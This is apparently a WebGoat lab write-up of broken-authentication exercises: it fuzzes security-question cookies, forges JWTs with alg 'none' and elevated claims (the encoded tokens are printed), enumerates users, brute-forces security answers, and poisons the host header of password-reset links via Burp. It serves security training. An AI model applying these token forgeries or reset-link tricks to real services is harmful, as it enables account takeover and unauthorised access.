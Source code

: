# Broken Authenticaton
## Authentication Bypasses
### Number 2
![Authentication Bypasses n.2](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/02_01.png)

In this exercise we need to replecate the attack that is described in this [article](https://henryhoggard.co.uk/blog/Paypal-2FA-Bypass).

![ZAP proxy submit](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/02_02.png)

As you can see there are two cookies (secQuestion0 and secQuestion1), we need to fuzz the names of coockies. Use ZAP and fuzz the 2 secQuestion, with the Regex payload. The solution will be to use secQuestion3 and secQuestion5 as name of parameter. We use secQuestion[0–9] as Regex.

![Fuzzing with ZAP](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/02_03.png)

![Solution request and response](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/02_04.png)
## JWT Tokens
### Number 4
![JWT tokens n.4](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/02_05.png)

In this exercise we need to reset all the votes, only admin can do that. We need to log as a normal user, like Tom, then reset request using ZAP.

![Solution n.4](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/02_06.png)

We need to decode the base64 access token ([base64 decoder](https://www.base64decode.org)). Then we delete the signature portion, change in the Header the "alg" value from "HS256" to "none", and set the admin field to "true". The result should be like:

```
{
  "alg": "none"
}

{
  "iat": 1567805972,
  "admin": "true",
  "user": "Tom"
}

ewogICJhbGciOiAibm9uZSIKfQ==.ewogICJpYXQiOiAxNTY3ODA1OTcyLAogICJhZG1pbiI6ICJ0cnVlIiwKICAidXNlciI6ICJUb20iCn0=.
```

### Number 5

For this example we need to know the structure of a JWT token.

![JWT Tokens n.5](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/02_07.png)

We need to [base64 decode](https://www.base64decode.org) the header and the payload part. Then we change the "alg" and "username" values to "none" and "WebGoat". Now we [base64 encode](https://www.base64encode.org) the 2 parts. At the end we will have "\<header\>.\<payload\>.", no signature.

![Base64 decoder](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/02_08.png)

Header

```
{"alg":"none"}
eyJhbGciOiJub25lIn0=
```

You need to change iat and exp value with yours(You can read exercise 7 to learn how to do)

Payload

```
{"iss":"WebGoat Token Builder","aud":"webgoat.org","iat":1571830867,"exp":1571830927,"sub":"tom@webgoat.org","username":"WebGoat","Email":"tom@webgoat.org","Role":["Manager","Project Administrator"]}
eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJhdWQiOiJ3ZWJnb2F0Lm9yZyIsImlhdCI6MTU3MTgzMDg2NywiZXhwIjoxNTcxODMwOTI3LCJzdWIiOiJ0b21Ad2ViZ29hdC5vcmciLCJ1c2VybmFtZSI6IldlYkdvYXQiLCJFbWFpbCI6InRvbUB3ZWJnb2F0Lm9yZyIsIlJvbGUiOlsiTWFuYWdlciIsIlByb2plY3QgQWRtaW5pc3RyYXRvciJdfQ==
```

### Number 7
![JWT Token n. 7](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/02_09.png)

To resolve this test we need to read this [write-up](https://emtunc.org/blog/11/2017/jwt-refresh-token-manipulation/).

We [base64 decode](https://www.base64decode.org) and read the access token given in the log file.

```
eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1MjYxMzE0MTEsImV4cCI6MTUyNjIxNzgxMSwiYWRtaW4iOiJmYWxzZSIsInVzZXIiOiJUb20ifQ
{"alg":"HS512"}.{"iat":1526131411,"exp":1526217811,"admin":"false","user":"Tom"}.
```

We change "alg" value to "none", and "iat" and "exp" parameter to new dates. "iat" is the the date when the token is created and "exp" when it shuld expire. We can calculate the date using this [site](https://www.epochconverter.com).

```
{"alg":"none"}.{"iat":1567883929,"exp":1570475929,"admin":"false","user":"Tom"}.
eyJhbGciOiJub25lIn0=.eyJpYXQiOjE1Njc4ODM5MjksImV4cCI6MTU3MDQ3NTkyOSwiYWRtaW4iOiJmYWxzZSIsInVzZXIiOiJUb20ifQ==.
```

We change the request for the checkout like this: (you need to use your "iat" and "exp" data and use "Authorization: Bearer "\<head\>.\<payload\>.)

![Final request](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/02_10.png)

### Number 8
![JWT tokens n.8](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/02_11.png)

To resolve this exercise we try to delete Jerry's account and change the token, we set the "alg" value to "none" and "username" to "Tom". Then we remove the signature part.
The results will be like:
```
{"typ":"JWT","kid":"webgoat_key","alg":"none"}.{"iss":"WebGoat Token Builder","iat":1524210904,"exp":1618905304,"aud":"webgoat.org","sub":"jerry@webgoat.com","username":"Tom","Email":"jerry@webgoat.com","Role":["Cat"]}.
```
Then [encode in base64](https://www.base64encode.org) the token, use it with ZAP.
```
eyJ0eXAiOiJKV1QiLCJraWQiOiJ3ZWJnb2F0X2tleSIsImFsZyI6Im5vbmUifT57ImlzcyI6IldlYkdvYXQgVG9rZW4gQnVpbGRlciIsImlhdCI6MTUyNDIxMDkwNCwiZXhwIjoxNjE4OTA1MzA0LCJhdWQiOiJ3ZWJnb2F0Lm9yZyIsInN1YiI6ImplcnJ5QHdlYmdvYXQuY29tIiwidXNlcm5hbWUiOiJUb20iLCJFbWFpbCI6ImplcnJ5QHdlYmdvYXQuY29tIiwiUm9sZSI6WyJDYXQiXX0=.
```

## Password reset
### Number 2
![Password Reset n. 2](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/02_12.png)

This is just a simple exercise to learn how to use WebWolf. You just need to send a reset password request using \*@webgoat.org (Instead of "\*", use your username) as email. Log in WebWolf and read the email. Use the password given to log in.
### Number 4
![Password Reset n. 4](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/02_13.png)

We try to login with a example user like "pippo", we get "User pippo is not a valid user.", but if we try with "Jerry" we get "Sorry the solution is not correct, please try again.", now we know the user to use.
Now with ZAP we can fuzz for all possible color. To do that we need to copy a wordlist of color like [this](https://raw.githubusercontent.com/imsky/wordlists/master/adjectives/colors.txt), and pass to the ZAP fuzzer, like in Authentication Bypasses exercise 2.

![Fuzzer ZAP color word list](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/02_14.png)
### Number 5
This is not an exercise. Just read 2 or more question.

### Number 6
During this exercise i used BurpSuite instead of ZAP.

![Password Reset n. 5](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/02_15.png)

First try with a test account like "pippo@webgoat.org", then go to WebWolf and see the emails.

![Password Reset Email WebWolf](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/02_16.png)

Try the link, as we can see in the url there is an ID for the request. So we need to find the exact id for "tom@webgoat-cloud.org". To do this we set Burp Suite as proxy and intercept  the request for the reset and change the host location to match the WebWolf ip and port. Like in this image.

![Burp Suite](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/02_17.png)

You can use repeater to do that as i did. Then go to the WebWolf Incoming Request and read the ID, in the request.

![WebWolf Incoming request](https://github.com/AlessandroMorelli96/Writeups/blob/master/webgoat/images/02_18.png)

Now go to \<ip-address\>:\<port\>/WebGoat/PasswordReset/reset/reset-password/\<ID\>. And reset the password for Tom. Now you can login as Tom.
## Secure Passwords
### Number 4
This is just a password tester, we just need to find a password that get a good score. Just think a good password.
